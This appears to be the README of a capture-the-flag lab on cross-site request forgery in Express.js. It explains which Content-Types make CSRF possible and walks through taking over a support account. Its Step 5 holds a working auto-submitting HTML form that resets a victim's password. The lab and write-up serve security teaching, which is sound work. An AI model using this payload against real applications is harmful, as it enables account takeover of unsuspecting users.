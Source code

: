# CSRF CTF

**Installation**
```
git clone https://github.com/JoshMorrison99/Express-CSRF; cd Express-CSRF; docker-compose up --build
```


## Findings
Handling reqests in Express.js it is quite common to use JSON like so:
```js
app.post('/api/reset_password', async (req, res) => {
    console.log(req.body.password)
})
```

Sending the following request will reset the password:
```
POST /api/reset_password HTTP/1.1
Host: localhost:5000
Content-Type: application/json
Cookie: SESS_COOKIE=s%3AqpqwMG8nJEa6lR7sUkdS%2B2%2B%2FLnfYkCCA

{"password":"123"}
```

Notice in the request above that the Content-Type is `application/json`. CSRF is not possible in this Content-Type. Before attempting CSRF, check if any of the following Content-Types are accepted:
```
Content-Type: text/plain  
Content-Type: application/x-www-form-urlencoded  
Content-Type: application/xml
```

If an express application only allows JSON, then the middleware will look like so:
```js
app.use(express.json());
```

If the express application accepts `application/json` and `application/x-www-form-urlencoded `
```js
app.use(express.json());
app.use(express.urlencoded({ extended: true }));
```

## Writeup
**Step 1**<br/>
When you start the application you are greeted with a login screen. You are given the login of `guest:guest`.
![image](https://user-images.githubusercontent.com/25315255/220460691-37fb0674-685d-447d-b63f-fd64e9e8cb00.png)


**Step 2**<br/>
After logging into the application there is a navigation bar with some routes to investigate.
![image](https://user-images.githubusercontent.com/25315255/220460837-1073221d-d057-4458-9aaf-db1d7bd64565.png)

**Step 3**<br/>
Starting with `Profile` you can reset your password.
![image](https://user-images.githubusercontent.com/25315255/220461031-4e96af9a-059e-4530-a5b6-65ba65a84ada.png)

**Step 4**<br/>
Moving over to `Support` you can give a URL and the support staff will check out the URL.
![image](https://user-images.githubusercontent.com/25315255/220461194-812e8c7e-aa57-4093-96a7-bc4578d3603a.png)

**Step 5**<br/>
Some things to try on the support page would be SSRF. This CTF however is not vulnerable to SSRF. The intended solution is to perform a CSRF attack to reset the support user's password and login as the support user. We can use the following CSRF PoC to reset the support user's password:
```
<html>
    <body>
        <form action="https://{IP}/api/reset_password" method="POST">
            <input type="hidden" name="password" value="12345" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Step 6**<br/>
After resetting the support user's password, we can login.
![image](https://user-images.githubusercontent.com/25315255/220461899-c0bde596-6dc7-4964-abb7-2189171e8a49.png)


